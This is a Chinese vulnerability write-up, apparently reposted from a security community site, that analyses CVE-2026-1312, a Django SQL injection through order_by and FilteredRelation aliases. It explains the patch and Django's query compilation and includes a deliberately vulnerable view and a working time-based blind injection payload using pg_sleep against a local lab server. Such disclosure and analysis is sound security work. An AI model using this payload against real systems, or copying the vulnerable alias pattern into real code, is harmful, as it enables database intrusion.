## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：No tested Django release/affected/fixed matrix; PostgreSQL pg_sleep case, Python3.11; crafted expanded dictionary alias passed to order_by

代码与实验材料：View snippet, generated SQL before/after, full call stack and2-part patch; repository provided for model/setup; delay asserted via screenshot

来源证据范围：Author repo, original XZ article, official commit e863ee273c6553e9b6fa4960a17acb535851857b

- **事实待核（1）**：Missing package/database versions and fixed release recommendations。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **实验改动边界（2）**：Empty related link and repeated long stacks/screenshots reduce navigation；依据：\[#注释符实现堆叠注入\]()。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  CVE-2026-1312: Django order_by结合FilteredRelation使用导致的SQL注入漏洞  
原创 sw0rd1ight
                    sw0rd1ight  剑指安全   2026-03-17 15:13  
  
> 文章首发于先知社区https://xz.aliyun.com/news/91709，公众号暂时只用做发表文章备份（也顺便改改错别字，后面有时间公众号再单独写）  
  
> https://xz.aliyun.com/news/91709  
  
  
  
2026年Django爆出的SQL注入漏洞**CVE-2026-1312: Potential SQL injection via QuerySet.order_by and FilteredRelation**  
  
**看描述有点意思，似乎是解决了我一直无法bypass的一个点，于是进行深入分析下**  
```
CVE-2026-1312: Potential SQL injection via QuerySet.order_by and FilteredRelation
QuerySet.order_by()was subject to SQL injection in column aliases containing periods when the same alias was, using a suitably crafted dictionary, with dictionary expansion, used inFilteredRelation.
Thanks to Solomon Kebede for the report.
This issue has severity "high" according to the Django security policy.
```  
  
  
## 0x01 补丁分析  
  
看起来只改了一处  
  
  
  
但是实际上有2处，补丁包括2个位置  
  
其一在django/db/models/sql/query.py  
```
    def add_filtered_relation(self, filtered_relation, alias):
        if "." in alias:
            raise ValueError(
                "FilteredRelation doesn't support aliases with periods "
                "(got %r)." % alias
            )
        self.check_alias(alias)
        filtered_relation.alias = alias
        relation_lookup_parts, relation_field_parts, _ = self.solve_lookup_type(
            filtered_relation.relation_name
        )
        if relation_lookup_parts:
            raise ValueError(
                "FilteredRelation's relation_name cannot contain lookups "
                "(got %r)." % filtered_relation.relation_name
            )
```  
  
此处是在FilteredRelation相关的别名做一个额外限制，不能包含点.  
  
  
  
其二是在django\db\models\sql\compiler.py  
```
            if "." in field and field in self.query.extra_order_by:
                # This came in through an extra(order_by=...) addition. Pass it
                # on verbatim.
                table, col = col.split(".", 1)
                yield (
                    OrderBy(
                        RawSQL(
                            "%s.%s" % (self.quote_name_unless_alias(table), col), []
                        ),
                        descending=descending,
                    ),
                    False,
                )
                continue
```  
  
此处基于原来的逻辑的基础上加了一个逻辑增强，如果ordery_by中传入的字段包含点.，那该字段必须在extra_order_by  
中，不然不走该RawSQL的拼接逻辑  
  
  
## 0x02 漏洞复现  
  
因为之前有看django的sql拼接逻辑，所以此处我基本能猜测出具体是什么场景下会存在sql注入  
  
view.py如下  
```
class Books(View):
    http_method_names = ['get','post']


    def get(self, request:HttpRequest):
        crafted = request.GET.get("name","new_name")
        relation = FilteredRelation("author")
        query =Book.objects.alias(**{crafted: relation}).order_by(crafted)
        sql = query.query
        print(sql)
        res = list(query.values_list())
        return HttpResponse(res)
```  
  
我们传进入的参数会作为外部关联表author表的别名，并且后续查询结果会以该别名的所指代的表的id字段进行排序  
  
我这个场景下的最终的时间盲注poc  
```
http://localhost:8086/book/search?name=vuln_book.id,pg_sleep(2)
```  
  
访问之后就能看到延时成功，相关代码在我的github仓库上可以找到  
  
下面我们看下具体为什么能利用  
## 0x03 漏洞分析  
  
我们先按照正常掺入一个合法的别名，看下出来的sql长什么样子  
  
访问  
http://localhost:8086/book/search?name=aaa  
  
  
  
可以看到sql如下  
  
  
```
SELECT "vuln_book"."id", "vuln_book"."title", "vuln_book"."author_id" FROM "vuln_book" INNER JOIN "vuln_author" aaa ON ("vuln_book"."author_id" = aaa."id") ORDER BY aaa."id" ASC
```  
  
就是和符合预期地将外部表vul_author表起一个别名为aaa，然后基于vul_book表的外键author_id和别名aaa所指代的表的主键id进行关联，后续基于别名aaa所指代的表的id列进行排序  
  
**从中可以看到我们可控的参数别名aaa没有被进行转义（没有被引号包围），所以是存在利用的空间的**  
，  
  
但是，当前别名能利用的方法（引号逃脱、注释等）已经在前面几个洞的修复中被封得死死的了  
```
# Quotation marks ('"`[]), whitespace characters, semicolons, hashes, or inline
# SQL comments are forbidden in column aliases.
FORBIDDEN_ALIAS_PATTERN = _lazy_re_compile(r"['`\"\]\[;\s]|#|--|/\*|\*/")

```  
```
    def check_alias(self, alias):
        if FORBIDDEN_ALIAS_PATTERN.search(alias):
            raise ValueError(
                "Column aliases cannot contain whitespace characters, hashes, "
                "quotation marks, semicolons, or SQL comments."
            )
```  
  
  
  
**由于已经限制了所有sql数据库的可用注释符，排除了堆叠注入的可能，能做的只有在当前sql语句中插入自己sql片段，并最终使得整个sql语句合法**  
。  
  
说起来是挺简单的，但是实际上做起来特别难  
  
我自从发现  
CVE-2025-59681  
后（通过mysql的#注释符实现堆叠注入  
），花了很多时间看这个位置一直没有突破  
  
难点在于注入的别名会被用在join中，同时别名又必须在后面被使用到(没有使用的话，在编译阶段就会被django的给优化掉，当前的view视图使用方法是将别名放到order_by中）  
  
可以看到上面的例子中注入的别名aaa出现了3次，现在问题就等价与将aaa全部替换成一个sql片段并使得整个sql语句合法  
```
SELECT "vuln_book"."id", "vuln_book"."title", "vuln_book"."author_id" FROM "vuln_book" INNER JOIN "vuln_author" aaa ON ("vuln_book"."author_id" = aaa."id") ORDER BY aaa."id" ASC
```  
  
这条路似乎被堵得死死的了，我之前一直卡在这里  
  
这次的CVE-2026-1312就通过sql中的关系运算符.，让关联关系join消失，别名仅仅出现在order by中，使得利用存在了可能，可能不是很好理解，我们先访问下  
http://localhost:8086/book/search?name=aaa.hi  
看下其调用流程  
  
  
  
虽然最终执行的时候异常了但是拼接好的sql如下  
  
  
```
SELECT "vuln_book"."id", "vuln_book"."title", "vuln_book"."author_id" FROM "vuln_book" ORDER BY ("aaa".hi) ASC
```  
  
可见变得简单多了，**由于上面的正则没有限定括号()和逗号,这意味着可以进行函数调用**  
，**而order by后刚刚好可以执行子查询**  
，于是我们修改参数为已经知道的表的关系，并嵌入其他子查询  
```
http://localhost:8086/book/search?name=vuln_book.id,pg_sleep(2)
```  
  
  
  
可见延时注入成功，出来的sql如下  
```
SELECT "vuln_book"."id", "vuln_book"."title", "vuln_book"."author_id" FROM "vuln_book" ORDER BY ("vuln_book".id,pg_sleep(2)) ASC
```  
  
再来思考下为什么aaa.hi能使得整个sql变得简单呢？具体和django 底层得sql优化有关  
  
我们先访问  
http://localhost:8086/book/search?name=aaa  
  
整体的过程非常复杂，主体的入口在as_sql()  
,它就是用来编译底层执行的SQL语句的，会分别基于当前的Query  
对象分别编译其**order_by部分**  
，where部分、select部分、group_by部分等  
  
  
  
  
首先处理的是order_by  
部分  
  
  
  
在处理ordery_by  
时会实时处理底层的一些映射关系，具体为几个dict  
- tables_map  
记录每个实际的表名和别名的关系  
  
- alias_map  
记录了每个别名到具体的model的关系  
  
- alias_refcount  
统计每个别名的引用次数  
  
在find_ordering_name  
方法中会进行细致的被排序字段分析并更新上述dict  
  
  
  
具体是在table_alias  
方法中考虑到了使用FilteredRelation  
的情况，如果存在FilteredRelation  
且其alias  
属性不为空时会依据别名和实际的表名建立别名的引用计数，此处会更新我们传进入的别名aaa  
的refcount  
为1  
  
上面部分的完整调用栈如下  
```
table_alias (\usr\local\lib\python3.11\site-packages\django\db\models\sql\query.py:910)
join (\usr\local\lib\python3.11\site-packages\django\db\models\sql\query.py:1150)
setup_joins (\usr\local\lib\python3.11\site-packages\django\db\models\sql\query.py:1961)
_setup_joins (\usr\local\lib\python3.11\site-packages\django\db\models\sql\compiler.py:1133)
find_ordering_name (\usr\local\lib\python3.11\site-packages\django\db\models\sql\compiler.py:1078)
_order_by_pairs (\usr\local\lib\python3.11\site-packages\django\db\models\sql\compiler.py:473)
get_order_by (\usr\local\lib\python3.11\site-packages\django\db\models\sql\compiler.py:490)
pre_sql_setup (\usr\local\lib\python3.11\site-packages\django\db\models\sql\compiler.py:86)
as_sql (\usr\local\lib\python3.11\site-packages\django\db\models\sql\compiler.py:766)
sql_with_params (\usr\local\lib\python3.11\site-packages\django\db\models\sql\query.py:350)
__str__ (\usr\local\lib\python3.11\site-packages\django\db\models\sql\query.py:342)
get (\workspaces\CVE-2026-1312\vuln\views.py:27)
dispatch (\usr\local\lib\python3.11\site-packages\django\views\generic\base.py:144)
view (\usr\local\lib\python3.11\site-packages\django\views\generic\base.py:105)
_get_response (\usr\local\lib\python3.11\site-packages\django\core\handlers\base.py:197)
inner (\usr\local\lib\python3.11\site-packages\django\core\handlers\exception.py:55)
__call__ (\usr\local\lib\python3.11\site-packages\django\utils\deprecation.py:120)
inner (\usr\local\lib\python3.11\site-packages\django\core\handlers\exception.py:55)
__call__ (\usr\local\lib\python3.11\site-packages\django\utils\deprecation.py:120)
inner (\usr\local\lib\python3.11\site-packages\django\core\handlers\exception.py:55)
__call__ (\usr\local\lib\python3.11\site-packages\django\utils\deprecation.py:120)
inner (\usr\local\lib\python3.11\site-packages\django\core\handlers\exception.py:55)
__call__ (\usr\local\lib\python3.11\site-packages\django\utils\deprecation.py:120)
inner (\usr\local\lib\python3.11\site-packages\django\core\handlers\exception.py:55)
__call__ (\usr\local\lib\python3.11\site-packages\django\utils\deprecation.py:120)
inner (\usr\local\lib\python3.11\site-packages\django\core\handlers\exception.py:55)
__call__ (\usr\local\lib\python3.11\site-packages\django\utils\deprecation.py:120)
inner (\usr\local\lib\python3.11\site-packages\django\core\handlers\exception.py:55)
get_response (\usr\local\lib\python3.11\site-packages\django\core\handlers\base.py:140)
__call__ (\usr\local\lib\python3.11\site-packages\django\core\handlers\wsgi.py:124)
__call__ (\usr\local\lib\python3.11\site-packages\django\contrib\staticfiles\handlers.py:80)
run (\usr\local\lib\python3.11\wsgiref\handlers.py:137)
handle_one_request (\usr\local\lib\python3.11\site-packages\django\core\servers\basehttp.py:253)
handle (\usr\local\lib\python3.11\site-packages\django\core\servers\basehttp.py:230)
__init__ (\usr\local\lib\python3.11\socketserver.py:755)
finish_request (\usr\local\lib\python3.11\socketserver.py:361)
process_request_thread (\usr\local\lib\python3.11\socketserver.py:691)
run (\usr\local\lib\python3.11\threading.py:982)
_bootstrap_inner (\usr\local\lib\python3.11\threading.py:1045)
```  
  
后续在拼接from  
部分时，则会参考上述的别名引用次数alias_refcount  
，来选择是否生成其相关的join  
部分  
  
  
  
**可以看到如果别名没有或者是别名引用次数为空的话就会跳过，不生成其相关的拼接逻辑**  
（所以到这里也基本知道了为什么引入的别名如果后面没有使用到就会被django移除的原因）  
  
  
  
此处我们传入的aaa  
是合法的别名，符合正常逻辑，此处生成对应的INNER JOIN SQL  
  
最终as_sql()  
走完所有的拼接逻辑  
  
  
  
得到的sql如下  
```
SELECT "vuln_book"."id", "vuln_book"."title", "vuln_book"."author_id" FROM "vuln_book" INNER JOIN "vuln_author" aaa ON ("vuln_book"."author_id" = aaa."id") ORDER BY aaa."id" ASC
```  
  
根据上面的分析逻辑，大概也知道最终的poc能减少关联关系中别名的出现原因，**就是使得我们传入的别名的引用计数不存在或者为0**  
  
具体是如何做到的呢？  
  
我们访问下poc，并跟踪下流程  
```
http://localhost:8086/book/search?name=vuln_book.id,pg_sleep(2)
```  
  
具体是在_order_by_pairs  
方法中开始出现分叉  
  
因为我们将有关系运算符.的别名传入了order_by  
中，所以此处走了RawSQL  
拼接的逻辑，不走后面会对order_by  
的字段进行分析同时统计别名和相关引用计数的逻辑（绿框逻辑，这意味着join部分会消失），此处会依据点.进行分割表名和列表，并且不对列名进行引号包裹，所以我们可以通过逗号往其中注入另外的可以被order_by执行的sql片段  
  
从补丁中也知道这段逻辑是为了原生SQL构造（extra()方法）时准备的  
  
